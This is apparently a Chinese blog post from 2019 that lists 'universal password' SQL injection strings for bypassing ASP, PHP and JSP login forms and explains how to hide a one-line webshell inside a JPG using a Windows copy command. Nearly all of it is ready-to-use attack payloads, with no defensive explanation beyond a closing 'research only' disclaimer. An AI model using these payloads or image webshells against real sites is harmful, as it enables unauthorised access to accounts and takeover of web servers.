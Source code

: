 ```yaml
---
layout: post
title: "Web安全--万能密码大全+图片马合成方法"
date: 2019-08-20
description: "Web安全"
tag: Web安全
---
```

---

### 前言：

被遗忘的笔记。

---


### 目录：

* <a href="#a" target="_self">万能密码大全</a>
* <a href="#b" target="_self">图片马合成方法</a>
* <a href="#zg" target="_self">总结</a>

-------


### <span id = "a">万能密码大全：</span>

asp、aspx、php、jsp万能密码大全。<br>

#### **asp、aspx 万能密码**

```php
"or "a"="a

')or('a'='a

or 1=1--

'or 1=1--

a'or' 1=1--

"or 1=1--

'or'a'='a

"or"="a'='a

'or''='

'or'='or'

1 or '1'='1'=1

1 or '1'='1' or 1=1

'OR 1=1%00

"or 1=1%00

'xor
```

-----


#### **PHP 万能密码：**

```php
'or 1=1/*

"' or '1'='1"

' or '1'='1

用户名 admin' or 'a'='a 密码随便

用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）

密码 1
```

-----

#### **jsp 万能密码：**

```jsp
1'or'1'='1

admin' or 1=1/*
```

-----


### <span id = "b">图片马合成方法：</span>

准备好普通图片和一句话木马文件放在同目录   <br>

然后在 **cmd** 窗口中使用命令合成 <br>

```bash
copy a.jpg /b + b.txt /a c.jpg
```

**a.jpg** 为图片  ， **b.txt** 为一句话  ， **c.jpg** 为生成图片马。<br>

如果要分离的话，可以使用 **winhex** 或者 **binwalk** <br>

就相当于打 **CTF** 解隐写题一样 !!

-----


### <span id = "zg">总结</span>

本文内容仅限用于安全研究，如有其他用途后果自负。

--------
